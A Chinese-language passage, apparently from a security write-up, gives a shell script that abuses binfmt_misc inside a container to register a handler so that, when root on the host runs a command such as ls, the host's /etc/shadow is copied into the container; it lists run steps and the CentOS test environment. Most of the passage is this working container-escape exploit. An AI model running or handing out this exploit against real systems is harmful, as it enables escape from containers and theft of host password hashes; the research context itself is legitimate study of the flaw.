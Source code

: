 测试代码如下：`container.sh`
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "#!/bin/bash" > /tmp/handler.sh
echo "" >> /tmp/handler.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
chmod +x /tmp/handler.sh
echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
```
容器中执行
```shell
chmod +x container.sh
./container.sh
```

宿主机中执行
```shell
# run by root
ls
```
执行成功后容器根目录会写入宿主机shadow文件，利用效果如下
![](media/16423261310936/16446794828562.jpg)



#### 在容器内直接触发不等待宿主机操作

目前仅在以下版本测试成功，在ubuntu 20.04.3 内核5.13.0测试失败原因还没有找到

测试环境

宿主机系统版本: CentOS Linux release 8.5.2111

宿主机内核版本: Linux 4.18.0-348.el8.x86_64 x86_64

容器系统版本: CentOS Linux release 8.4.2105

容器内核版本: Linux 4.18.0-348.el8.x86_64 x86_64
